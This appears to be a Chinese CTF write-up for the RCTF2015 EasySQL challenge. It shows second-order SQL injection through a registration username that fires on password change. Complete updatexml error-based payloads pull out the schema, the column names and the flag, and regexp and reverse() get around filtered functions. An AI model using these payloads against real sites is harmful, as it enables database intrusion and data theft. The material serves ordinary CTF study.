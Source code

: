 ```yaml
---
title: '[RCTF2015]EasySQL'
date: 2024-06-08 17:11:09
tags:
     - 题解
     - sql注入
categories: 刷题笔记
---
```


### [RCTF2015]EasySQL)(二次注入&updatexml报错注入&正则匹配&逆转)

我们发现，这道题跟sql-libs的二次注入类似，我们首先在注册页面进行测试，发现在用户名中进行了过滤，过滤了substr，and，or等一些可以注入的字符，在这一栏进行了过滤，说明这里可能存在注入。

<!-- more -->

注册一个新的用户，用户名：123。密码：123。登陆用户，发现有一个修改密码的页面

![image-20240605203931676](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052039718.png)

登录并进入修改密码的页面，修改密码

![image-20240605203943203](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052039239.png)

说明存在二次注入

### 爆库

```
123"||(updatexml(1,concat('~'(select(database()))),1))#
```

![image-20240605200749144](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052007294.png)

### 爆表

```
123"||(updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli'))),1))#
```

![image-20240605202005072](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052020120.png)

### 爆flag表

```
123"||(updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(column_name='flag'))),1))#
```

![image-20240605202114249](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052021293.png)

### 爆flag字段

```
123"||(updatexml(1,concat('~',(select(group_concat(flag))from(flag))),1))#
```

![image-20240605202206083](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052022151.png)

很好，flag不在这，我们爆users表

### 爆users表

```
123"||(updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#
```

![image-20240605202446835](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052024905.png)

### 爆real_flag_1s_her字段

```
123"||(updatexml(1,concat('~',(select(group_concat(real_flag_1s_her))from(users))),1))#
```

![image-20240605202904598](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052029664.png)

该字段有多列，需要用**regexp(’^f’)\**将f开头的进行筛选（\**regexp()是sql的正则表达式**）

```
123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#
```

![image-20240605203249816](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052032882.png)

得到一半的flag，由于substr，left，mid，right被禁了，我们使用reverse来反转flag

```
123"||(updatexml(1,(select(reverse(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')),1))#
```

![image-20240605203409198](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406052034251.png)

得到另一半flag

我们进行组合，得到flag

```
flag{4707a8a0-ed51-44b3-b5c3-ace7edd82aec}
```
